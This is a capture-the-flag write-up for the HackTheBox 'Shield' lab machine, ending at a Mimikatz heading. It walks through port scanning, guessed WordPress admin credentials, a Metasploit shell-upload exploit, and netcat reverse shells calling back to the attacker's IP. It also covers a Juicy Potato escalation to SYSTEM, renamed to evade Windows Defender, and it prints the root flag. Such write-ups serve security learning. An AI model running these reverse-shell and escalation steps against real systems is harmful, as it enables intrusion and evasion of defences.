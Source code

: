 # HackTheBox | Shield
###### Writeup by. Jessi

## Enumeration
### Nmap Scan
Begin with an nmap scan against the target.  
**Target:** 10.10.10.29  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Shield]
└─$ nmap -sC -sV 10.10.10.29
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-07 20:38 EST
Nmap scan report for 10.10.10.29
Host is up (0.028s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3306/tcp open  mysql   MySQL (unauthorized)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.90 seconds
~~~
### Open Ports/Services
80/tcp - HTTP (IIS)  
3306/tcp - MySQL  
### HTTP
Browsing to http://10.10.10.29/ presents us with the default IIS starting page.  
![iis page](screenshots/iis.png)  
### GoBuster
Using **GoBuster** I am to scan for any sub-directories or files that are hosted on the target server.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Shield]
└─$ gobuster dir -u http://10.10.10.29/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.29/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/07 20:43:10 Starting gobuster
===============================================================
/wordpress (Status: 301)
===============================================================
2021/01/07 20:43:23 Finished
===============================================================
~~~
The scan reveals a /wordpress directory. I decided to navigate to it and take a look.  
## Foothold
### WordPress
After accessing http://10.10.10.29/wordpress/wp-login.php, I attempted a combination of common usernames and passwords.  
#### Found Credentials
Username: admin  
Password: P@s5w0rd!  
### Meterpreter Shell
Since I have the admin credentials to the WordPress site, I can leverage this through msfconsole and use exploit/unix/webapp/wp_admin_shell_upload to aquire a **meterpreter** shell on the system.  
~~~Bash
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD P@s5w0rd!
PASSWORD => P@s5w0rd!
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.29
RHOSTS => 10.10.10.29
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST tun0
LHOST => tun0
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.14.30:4444 
[*] Authenticating with WordPress using admin:P@s5w0rd!...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/ClchyWYYFZ/TziaqJWYHJ.php...
[*] Sending stage (39282 bytes) to 10.10.10.29
[*] Meterpreter session 1 opened (10.10.14.30:4444 -> 10.10.10.29:50577) at 2021-01-07 20:48:25 -0500
[+] Deleted TziaqJWYHJ.php
[+] Deleted ClchyWYYFZ.php
[!] This exploit may require manual cleanup of '../ClchyWYYFZ' on the target
meterpreter > 
~~~
I'll upgrade to a more stable shell by uploading a netcat binary.  
### Netcat
First I have to lcd to /usr/share/windows-binaries (lcd stands for local change directory) and then navigate to a writeable directory on the server, in this case it's C:/inetpub/wwwroot/wordpress/wp-content/uploads. Then we upload the binary.  
~~~Bash
meterpreter > lcd /usr/share/windows-binaries/
meterpreter > cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
meterpreter > upload nc.exe
[*] uploading  : nc.exe -> nc.exe
[*] Uploaded -1.00 B of 58.00 KiB (-0.0%): nc.exe -> nc.exe
[*] uploaded   : nc.exe -> nc.exe
~~~
Now I have to start my netcat listener and execute the shell.  
~~~Bash
nc -lvnp 1234
~~~
**Shell execute**  
~~~Bash
meterpreter > execute -f nc.exe -a "-e cmd.exe 10.10.14.30 1234"
Process 2484 created.
~~~
And we have our shell.  
~~~Bash
┌──(jessi㉿teatimesec)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.29] 50578
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\wordpress\wp-content\uploads>
~~~
## PrivEsc
### JuicyPotato
Juicy Potato is a variant of an exploit allowing for service accounts on Windows to escalate to SYSTEM. It does by leveraging BITS and the SeAssignPrimaryToken or SeImpersonate privilege in a MiTM attack. To exploit this, I need to upload our JP binary and rename it to something else so that it doesn't get picked up Windows Defender.  
~~~Bash
meterpreter > upload JuicyPotato.exe
[*] uploading  : JuicyPotato.exe -> JuicyPotato.exe
[*] Uploaded -1.00 B of 339.50 KiB (-0.0%): JuicyPotato.exe -> JuicyPotato.exe
[*] uploaded   : JuicyPotato.exe -> JuicyPotato.exe
meterpreter > mv JuicyPotato.exe jsp.exe
~~~
Now I'll create a batch file that will be executed by the exploit, this will return a SYSTEM shell. I'll name it shell.bat.  
~~~Bash
C:\inetpub\wwwroot\wordpress\wp-content\uploads>echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.14.30 1337 > shell.bat
~~~
### Execute the shell
And now I just need to execute the shell. 
~~~Bash
C:\inetpub\wwwroot\wordpress\wp-content\uploads>jsp.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
jsp.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
~~~
And over at our netcat listner on port 1337.  
~~~Bash
┌──(jessi㉿teatimesec)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.29] 50678
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
PS C:\Windows\system32> 
~~~
We are now SYSTEM.  
##### root.txt
Located in C:\Users\Administrator\Desktop.
**6e9a9fdc6f64e410a68b847bb4b404fa**
## Post Exploitation
### Mimikatz
